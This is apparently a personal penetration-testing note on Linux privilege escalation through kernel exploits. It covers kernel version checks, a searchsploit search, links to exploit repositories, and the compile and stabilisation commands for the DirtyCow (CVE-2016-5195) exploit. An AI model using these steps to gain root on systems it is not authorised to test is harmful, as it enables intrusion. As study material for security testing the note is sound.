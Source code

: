 ```yaml
---
id: Kernel Exploits
aliases: []
tags:
  - Linux/Privesc/Kernel-Exploits
links: "[[Privesc]]"
---
```


# Kernel Exploits

If a host is not being maintained and running an unpatched or old operating
system, potential kernel vulnerabilities may exist.

## Kernel Version

Check kernel version

```sh
cat /proc/version
```

```sh
uname -a
```

### Public Exploits

Search for public kernel exploits

```sh
searchsploit "Linux Kernel"
```

List of vulnerable kernel exploits

- [GitHub - Kernel exploits](https://github.com/lucyoa/kernel-exploits)
- [GitLab - Exloit DB](https://gitlab.com/exploit-database/exploitdb-bin-sploits)

### DirtyCow (CVE-2016-5195)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```sh
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```
